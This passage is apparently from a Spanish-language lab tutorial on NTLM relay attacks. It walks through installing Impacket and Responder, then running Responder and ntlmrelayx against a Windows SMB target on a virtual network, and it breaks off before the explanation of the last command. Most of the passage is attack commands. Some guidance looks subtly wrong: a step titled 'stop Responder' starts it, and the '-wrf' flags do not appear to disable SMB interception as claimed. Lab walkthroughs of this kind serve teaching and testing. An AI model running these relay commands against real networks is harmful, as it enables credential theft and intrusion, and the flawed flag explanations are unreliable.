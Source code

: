 ```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip3 install .
```

---

#### ✅ 2. Instala Responder

```bash
sudo apt install responder
```

O manual:

```bash
git clone https://github.com/lgandx/Responder.git
cd Responder
```

---

### 🚀 Laboratorio de ejemplo: NTLM Relay a SMB

#### 🧪 Entorno:

- **Kali Linux** (Atacante)
- **Windows 10** (Víctima)
- **Windows Server** (Objetivo del relay, con compartidos SMB o LDAP)

> Las 3 máquinas deben estar en la misma red o segmento virtual (como VirtualBox o VMware NAT o red interna).

---

### 📍 Paso 1: Detén Responder (para que no intercepte SMB)

```bash
cd Responder
sudo ./Responder.py -I eth0 -wrf
```

> Usa `-wrf` para evitar que Responder intercepte SMB. Solo interceptará LLMNR/NBT-NS y dejará libre el SMB para ntlmrelayx.

---

### 📍 Paso 2: Ejecuta ntlmrelayx

Usaremos ntlmrelayx para **retransmitir autenticaciones NTLM a un servidor SMB vulnerable** (sin SMB signing).

```bash
sudo ntlmrelayx.py -t smb://192.168.1.50 -smb2support --no-http-server
```

Explicación:
